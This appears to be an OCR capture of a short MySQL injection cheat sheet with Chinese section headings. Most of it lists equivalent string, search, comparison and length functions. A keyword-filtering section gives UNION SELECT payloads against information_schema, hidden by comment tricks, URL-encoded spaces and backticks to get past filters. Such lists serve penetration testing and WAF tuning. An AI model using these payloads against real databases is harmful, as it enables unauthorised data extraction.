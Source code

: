 ```
substr('abc' from 1 for 1) = 'a'
substring('abc',1,1) = 'a'
substring('abc' from 1 for 1) = 'a'
mid('abc',1,1) = 'a'
mid('abc' from 1 for 1) = 'a'
lpad('abc',1,space(1)) = 'a'
rpad('abc',1,space(1)) = 'a'
left('abc',1) = 'a'
reverse(right(reverse('abc'),1)) = 'a'
insert(insert('abc',1,0,space(0)),2,222,space(0)) = 'a'
space(0) = trim(version()from(version()))

#搜索子字符串
locate('a','abc')
position('a','abc')
position('a' IN 'abc')
instr('abc','a')
substring_index('ab','b',1)

#分割字符串
length(trim(leading 'a' FROM 'abc'))
length(replace('abc', 'a', "))

#比较字符串
strcmp('a','a')
mod('a','a')
find_in_set('a','a')
field('a','a')
count(concat('a','a'))

#字符串长度
length()
bit_length()
char_length()
octet_length()
bit_count()

#关键字过滤
Connected keyword filtering
(0)union(select(table_name),column_name,…
0/**/union/*!50000select*/table_name`foo`/**/…
0%a0union%a0select%09group_concat(table_name)….
0′union all select all`table_name`foo from`information_schema`. `tables`

#控制流
case 'a' when 'a' then 1 [else 0] end
case when 'a'='a' then 1 [else 0] end
if('a'='a',1,0)
ifnull(nullif('a','a'),1)
```
